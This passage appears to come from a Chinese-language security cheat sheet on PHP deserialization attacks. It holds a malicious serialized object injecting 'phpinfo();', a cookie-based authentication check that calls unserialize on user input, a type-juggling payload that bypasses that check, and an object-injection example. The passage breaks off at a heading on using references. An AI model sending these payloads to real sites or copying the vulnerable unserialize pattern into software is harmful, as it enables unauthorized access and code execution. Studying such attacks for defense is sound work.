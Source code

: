 正常请求

```
a:2:{i:0;s:5:"Hello";i:1;s:4:"php.";}
```

恶意请求

```
O:18:"PHPObjectInjection":1:{s:6:"inject";s:11:"phpinfo();"}
```

#### 身份认证绕过

```php
<?php
$data = unserialize($_COOKIE['auth']);

if ($data['username'] == $adminName && $data['password'] == $adminPassword) {
    $admin = true;
} else {
    $admin = false;
}
```

类型篡改

```
a:2:{s:8:"username";b:1;s:8:"password";b:1;}
```

#### 对象注入

```php
<?php
class ObjectExample
{
  var $guess;
  var $secretCode;
}

$obj = unserialize($_GET['input']);

if($obj) {
    $obj->secretCode = rand(500000,999999);
    if($obj->guess === $obj->secretCode) {
        echo "Win";
    }
}
else {
	highlight_file(__FILE__);
}
?>
```

使用指针类型
